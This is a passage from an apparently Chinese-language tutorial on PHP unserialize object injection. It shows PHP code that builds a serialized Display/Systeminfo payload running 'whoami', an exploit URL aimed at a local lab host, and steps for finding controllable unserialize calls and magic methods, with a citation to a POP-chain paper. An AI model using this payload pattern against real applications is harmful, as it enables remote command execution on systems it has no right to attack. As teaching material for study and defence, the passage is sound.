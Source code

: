 ```php
```
构造payload的代码：
```php
<?php
	class Systeminfo{
		public $cmd = 'whoami';
	}
	class Display{
		public $handle;

		function __construct(){
			$this->handle = new Systeminfo;
		}
	}

	print serialize(new Display);
?>
```
利用：
```
http://hack.lo/obi/pop.php?data=O:7:"Display":1:{s:6:"handle";O:10:"Systeminfo":1:{s:3:"cmd";s:6:"whoami";}}
```

## 如何去发现该漏洞
>1. 寻找代码中参数可控的unserialize函数。
>2. 寻找类含有的魔术方法，观察找到的魔术方法的实现看能否被利用。

当找到一个参数可控的unserialize函数时，可以利用get_included_files来查看当前脚本包含有哪些文件，从而在这些文件里找有定义的类，再在这些类中找魔术方法。

## 参考
http://syssec.rub.de/media/emma/veroeffentlichungen/2014/09/10/POPChainGeneration-CCS14.pdf